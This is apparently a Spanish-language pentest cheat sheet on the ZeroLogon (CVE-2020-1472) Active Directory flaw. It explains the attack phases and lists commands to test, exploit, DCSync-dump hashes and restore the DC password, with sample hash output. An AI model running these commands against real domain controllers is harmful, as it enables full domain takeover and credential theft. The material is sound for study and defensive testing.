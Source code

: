 # 🛑 ZeroLogon en Active Directory

---

## 📝 ¿Qué es ZeroLogon?

| Concepto      | Descripción                                                                                                 |
|---------------|------------------------------------------------------------------------------------------------------------|
| **Definición**| ZeroLogon es una vulnerabilidad crítica (CVE-2020-1472) en el protocolo Netlogon de Windows que permite a un atacante sin autenticar obtener privilegios de administrador de dominio a través de la explotación de un fallo en la implementación criptográfica. |
| **Requisito** | El atacante debe tener conectividad de red al controlador de dominio en el puerto 445 (SMB) y conocer el nombre del DC.                |

---

## 🛠️ ¿Cómo funciona el ataque?

| Fase             | Acción                                                                                         |
|------------------|------------------------------------------------------------------------------------------------|
| **Conexión**     | El atacante se conecta al controlador de dominio a través del protocolo Netlogon RPC/SMB.     |
| **Explotación**  | Envía múltiples intentos de autenticación con IV (Initialization Vector) de ceros, aprovechando un fallo en la implementación de AES-CFB8. |
| **Reseteo**      | Al tener éxito, resetea la contraseña de la cuenta de máquina del DC a una cadena vacía.       |
| **Escalada**     | Utiliza las credenciales comprometidas para ejecutar DCSync y volcar todos los hashes del dominio. |
| **Persistencia** | Puede crear cuentas de administrador de dominio o establecer otros métodos de persistencia.     |

---

## 💻 Ejemplo práctico ofensivo (comandos reales)

```bash
# Verificar si el DC es vulnerable a ZeroLogon
python3 zerologon_tester.py DC01 192.168.1.10

# Explotar ZeroLogon para resetear contraseña del DC
python3 cve-2020-1472-exploit.py DC01 192.168.1.10

# Una vez explotado, realizar DCSync para extraer hashes
secretsdump.py -just-dc -no-pass 'DOMAIN/DC01$@192.168.1.10'

# Alternativa con impacket
python3 zerologon.py DC01 192.168.1.10

# Restaurar la contraseña original del DC (importante para estabilidad)
python3 restorepassword.py DOMAIN/administrator@DC01 -target-ip 192.168.1.10 -hexpass [hash_original]
```

```
[*] Testing ZeroLogon vulnerability on DC01...
[*] DC01 appears to be vulnerable to ZeroLogon!
[*] Attempting to exploit...
[*] Success! Machine account password reset.
[*] Performing DCSync attack...
[+] DOMAIN\Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] DOMAIN\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
```

---
